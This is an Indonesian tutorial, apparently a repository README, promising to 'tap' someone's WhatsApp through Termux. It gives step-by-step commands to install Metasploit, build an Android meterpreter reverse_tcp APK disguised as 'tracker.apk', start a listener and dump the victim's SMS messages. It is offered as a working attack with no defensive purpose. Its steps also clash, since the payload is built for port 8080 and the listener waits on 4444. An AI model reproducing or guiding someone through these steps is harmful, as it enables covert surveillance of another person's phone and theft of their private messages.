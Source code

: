 # sadapwa dengan termux


adap wa dengan termux , meskipun tutorial kali ini susah untuk dilakuka untuk para pemula tapi setidaknya kita mencoba terlebih dahulu gimana cara sadap wa dengan menggunakan aplikasi termux, untuk tutorial lengkapnya di bawah ini
buka aplikasi termux
masukan semua kode perintah di bawah ini satu persatu
 apt update && apt upgrade
pkg install unstable-repo
pkg install metasploit
kode perintah untuk sadap wa
 msfconsole
kemudian masukan kode perintah di bawah ini
 msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=8080 -o /sdcard/tracker.apk 
kode perintah Proses sadap wa
 use multi/handler
. set payload android/meterpreter/reverse_tcp
. set lhost 192.168.1.101
. set lport 4444
. exploit
menjalankan perintah sadap wa
 dump_sms
